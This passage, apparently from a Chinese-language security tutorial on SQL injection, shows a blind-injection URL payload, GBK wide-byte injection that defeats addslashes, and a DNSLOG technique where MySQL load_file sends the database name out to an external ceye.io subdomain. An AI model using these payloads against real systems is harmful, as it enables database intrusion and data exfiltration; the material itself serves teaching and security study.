 ```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### 寬字節注入

國內最常使用的 GBK 編碼，這種方式主要是繞過 `addslashes` 等對特殊字符進行轉移的繞過。反斜槓 `\` 的十六進製爲 `%5c`，在你輸入 `%bf%27` 時，函數遇到單引號自動轉移加入 `\`，此時變爲 `%bf%5c%27`，`%bf%5c`
在 GBK 中變爲一個寬字符「縗」。`%bf` 那個位置可以是 `%81-%fe` 中間的任何字符。不止在 SQL 注入中，寬字符注入在很多地方都可以應用。

### DNSLOG注入

**DNS在解析的時候會留下日誌，通過讀取多級域名的解析日誌，來獲取信息。簡單來說就是把信息放在高級域名中，傳遞到自己這，然後讀取日誌，獲取信息。**

dnslog平臺：[http://ceye.io/](http://ceye.io/)

```
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```
![](./php/figure/preg_match/sqli1.png)

## 參考資料

-   [SQL 注入速查表](http://drops.xmd5.com/static/drops/tips-7840.html)
-   [MySQL 注入技巧](http://drops.xmd5.com/static/drops/tips-7299.html)
-   [MySQL 注入科普](http://drops.xmd5.com/static/drops/tips-123.html)
-   [MySQL 注入總結](http://www.91ri.org/4073.html)
-   [《SQL 注入攻擊與防禦》](http://product.dangdang.com/23364650.html)
